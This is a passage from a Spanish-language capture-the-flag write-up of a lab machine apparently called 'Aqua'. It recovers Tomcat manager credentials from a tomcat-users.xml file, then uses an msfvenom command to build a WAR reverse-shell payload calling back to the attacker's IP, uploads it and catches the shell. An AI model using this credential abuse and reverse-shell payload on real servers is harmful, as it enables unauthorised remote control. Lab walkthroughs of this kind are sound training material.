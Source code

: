 Nos descomprime un archivo tomcat-users.xml que nos regala las credenciales

```
❯ cat tomcat-users.xml

[...tomcat-users.xml...]
<!--
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
        <role rolename="manager-gui"/>
        <role rolename="admin-gui"/>
        <user username="aquaMan" password="******M4n" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
Entrando a la pagina de Manager App en tomcat
![](img/Aqua/aqua1.png)
Una vez dentro podemos crear un archivo .WAR que nos realice una reverse shell hacia nuestra maquina.

```
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f war -o revshell.war
```

Lo subimos en la pagina de tomcat, nos podemos en escucha y entablamos conexion.
![](img/Aqua/aqua2.png)
